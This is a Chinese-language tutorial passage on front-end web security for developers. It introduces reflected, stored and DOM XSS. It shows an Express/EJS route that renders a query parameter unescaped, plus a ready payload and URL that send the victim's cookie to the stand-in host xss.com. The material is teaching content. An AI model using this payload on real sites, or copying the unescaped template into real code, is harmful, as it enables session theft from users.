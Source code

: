 # 24-你的代码是怎么成为黑客工具的？

随着 Web 应用越来越广泛，各种 Web 安全问题也日益凸显，时常看到网上消息说，某网站用户账号信息遭泄露或盗取。

Web 安全问题很容易成为前端工程师的盲点，一方面浏览器的各种安全策略给前端工程师造就了一种安全的假象；另一方面在通常的理解中，黑客更多的是通过系统漏洞和病毒程序来入侵服务端，让人容易形成安全问题只与服务端关系密切的错觉。

这一课时我们就来分析前端相关的 3 个安全问题，从而让你开发的 Web 应用更安全。

## 跨站脚本（Cross Site Scripting，XSS）

理论上跨站脚本的首字母缩写应该为“CSS”，但这样容易和层叠样式表（Cascading Style Sheets，CSS）的缩写混淆，所以缩写为 XSS。

它主要是指攻击者可以在页面中插入恶意脚本代码，当受害者访问这些页面时，浏览器会解析并执行这些恶意代码，从而达到窃取用户身份/钓鱼/传播恶意代码等行为。

### XSS 攻击示例

一般我们把 XSS 分为**反射型、存储型、DOM 型** 3 种类型。

反射型 XSS 也叫非持久型 XSS，是指攻击者将恶意代码拼写在 URL 中提交给服务端，服务端返回的内容，也带上了这段 XSS 代码，最后导致浏览器执行了这段恶意代码。

下面通过一个简单的例子加以说明。

服务端采用 express.js 并使用 ejs 进行服务端渲染，服务端接收到地址栏 search 参数时，会将其传入到模板的 search 变量中，并生成 HTML。

```javascript
<!-- ejs 模板 -->
你搜索了：<%-search%>
// 服务端处理逻辑
app.get('/reflection', function(req, res){
  res.render('reflection', {
    search: req.query.search
  });
})
```

比如有攻击者想获取用户 cookie，编写了下面一段 JavaScript 代码。通过动态创建一个 script 标签，然后把当前 cookie 发送给目标地址 xss.com。

```html
<script>
  s = document.createElement('script')
  s.src = `xss.com?cookie=${document.cookie}`
  document.head.append(s)
</script>
```

那么就可以将代码进行 URI 转码之后，赋值给 URL 参数 search，把这个参数添加到对应的网址并发送给对应的用户即可获取它的 cookie。

```javascript
?search=<script>var s=document.createElement('script');s.src=`xss.com?cookie=${document.cookie}`;document.head.append(s);</script>
```

当然这种赤裸裸的发送很容易引起用户警觉，所以一般会转为短网址并且包装成一些带有诱导性文字的超链接，引诱用户点击访问，一旦用户点击就不知不觉地向攻击者发送了自己的 cookie。

存储型和反射型相比破坏性更大，因为存储型的恶意代码存储在数据库等地方，每次访问页面都会触发 XSS。比如一些网站允许用户设置一段个性签名，并且显示在个人主页，攻击者就可以在个性签名中输入恶意代码并提交到服务端，如果这段代码没有进行任何处理直接存储到数据库，那么其他用户访问这个个人主页的时候都会执行这段恶意代码。
